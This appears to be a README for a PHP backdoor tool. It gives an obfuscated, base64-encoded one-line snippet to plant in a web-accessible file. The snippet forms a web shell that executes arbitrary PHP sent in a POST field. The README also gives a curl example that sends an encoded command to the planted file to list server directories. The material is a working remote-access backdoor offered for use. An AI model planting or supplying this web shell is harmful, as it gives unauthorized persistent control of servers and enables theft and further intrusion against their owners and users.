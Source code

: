 Backdoor
========

Install
-------

Insert in document to which you have direct access from the browser, the following code

```php
<?eval(base64_decode('aWYoaXNzZXQoJF9QT1NUWychJ10pKWV4aXQoZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsnISddKSkpOw=='))?>
```

Open backdoor client in the browser to execute any the commands on remote host


Example use for cURL
--------------------

```shell
# cHJpbnRfcihzY2FuZGlyKGRpcm5hbWUoX19GSUxFX18pKSk7 == base64_encode('print_r(scandir(dirname(__FILE__)));')
curl --data "!=cHJpbnRfcihzY2FuZGlyKGRpcm5hbWUoX19GSUxFX18pKSk7" http://example.com/wconfig.php
```

Return all files in the root dirrectory
